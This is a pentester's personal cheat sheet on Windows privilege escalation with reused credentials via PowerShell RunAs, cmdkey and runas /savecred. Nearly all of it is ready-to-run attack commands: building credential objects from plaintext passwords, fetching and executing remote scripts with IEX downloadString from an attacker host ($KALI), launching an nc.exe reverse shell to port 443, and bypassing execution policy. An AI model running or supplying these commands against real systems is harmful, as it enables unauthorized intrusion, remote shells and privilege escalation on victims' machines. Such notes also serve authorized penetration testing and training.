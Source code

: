 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

####  RunAs via PowerShell (Requires creds)
**Method1**
Attempting to re-use a found password with the Administrator account can be achieved using PowerShell:

![[Pasted image 20220926193742.png]]

```Powershell - target
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

will store the credentials in `$creds` for the session. 

A reverse shell can now be opened with the supplied credentials using the command:

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://$KALI/Shelly.ps1')" -Credential $creds
```

**Method2**


Say we already have Alice's (Local Admin member) password, we can execute cmd as her.

[[rlwrap]]

```powershell - target
echo $username = 'alice' > startprocess.ps1
```

```powershell - target
echo $password = '$PASSWORD' >> startprocess.ps1
```

```powershell - target
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
```

```powershell - target
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
```

Transfer over nc.exe
```bash - kali
cp /usr/share/windows-resources/binaries/nc.exe .
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```
echo $KALI
```

==REPLACE $KALI WITH YOUR IP!==
```command prompt - target
echo Start-Process 'C:\Users\$USER\AppData\Local\Temp\nc.exe' -ArgumentList '-e C:\Windows\System32\cmd.exe $KALI 443' -Credential $credential >> startprocess.ps1
```

```command prompt - target
powershell.exe Get-ExecutionPolicy -Scope CurrentUser
```

```command prompt - target
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```command prompt - target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```

#### RunAs via cmdkey
```command prompt - windows
cmdkey /list
```

![[Pasted image 20220206132243.png]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

```command prompt - target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://$KALI/Invoke-PowerShellTcp.ps1')"
```

